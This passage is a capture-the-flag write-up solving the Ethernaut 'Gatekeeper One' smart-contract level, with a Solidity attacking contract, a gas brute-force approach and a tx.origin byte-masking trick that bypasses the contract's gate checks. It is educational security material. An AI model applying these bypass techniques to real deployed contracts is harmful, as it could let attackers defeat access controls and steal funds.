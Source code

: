 In order to achieve this, we need to make some changes to `tx.origin` manually:

* Only keep the first 2 bytes: `0x98bCCA1C6023e3F851090e079030da43d9F229d1` --> `0x00000000000000000000000000000000000029d1`

* Add at least one value within the zeros in the 8 byte range so that when we typecast into `uint64`, the second check passes, meaning that we need to add at least one hex number (0-9 or A-F) in any position marked with an X: `0x000000000000000000000000XXXXXXXX000029d1`

### How I did it

1. Code and deploy (at: `0xdcEae9bA04Ddb9Dfd5F9B589A0d8638e739cD01b`) an attacking contract where I create a function that will call `enter()` in the Gatekeeper One smart contract. 
   
The function takes a parameter `address` and then casts it into `uint64` and then into `bytes8` to pass it to `enter()`, as `enter()` takes a `bytes8` parameter.

The second parameter will be a number, it can be a `uint16` as we will deal with small values. This number will be the amount of gas that will be used by instructions in the Gatekeeper One contract call. A multiple of 8191 has to be added to this message call to the amount of additional gas passed through `additionalGas` in order to pass the 2nd check.

```js
function callEnter(address _modifiedTxOrigin, uint16 additionalGas) public returns (bool) {
    // modified tx origin is tx origin with tweaks to pass the require statements in `enter()`
    bytes8 _modifiedTxOriginBytes = bytes8(uint64(_modifiedTxOrigin));
    bool success;

    // send a message call with a specific amount of gas + a multiple of 8191
    (success,) = address(gko).call{
        gas: additionalGas + 10*8191
    }(abi.encodeWithSignature(
        'enter(bytes8)', 
        _modifiedTxOriginBytes
    ));

    // require success
    require(success, 'call failed');

    // return result of the success
    return success;
}
```

2. Modify my address (the `tx.origin`, `0x98bCCA1C6023e3F851090e079030da43d9F229d1`) in order to pass the third check, in this case I used `0x0000000000000000000000000000000A000029d1`. This will pass all checks as described in [solution](#solution-11).

```python
modified_tx_origin = f"0x{'0'*31}A0000{acc.address[-4:]}"
```

3. In order to find the cost of the instructions, I decided to bruteforce the message call until at least one transaction passed and then annotate the typical cost for it. It ended up usually being `211` or `254`. `bruteforce` is a parameter in my function used to solve the challenge, which if `True` will run the loop and execute 200+ txs to find the correct gas to input into `additionalGas`. Once I have the correct gas value, I input it in the else statement and make `bruteforce=False`.
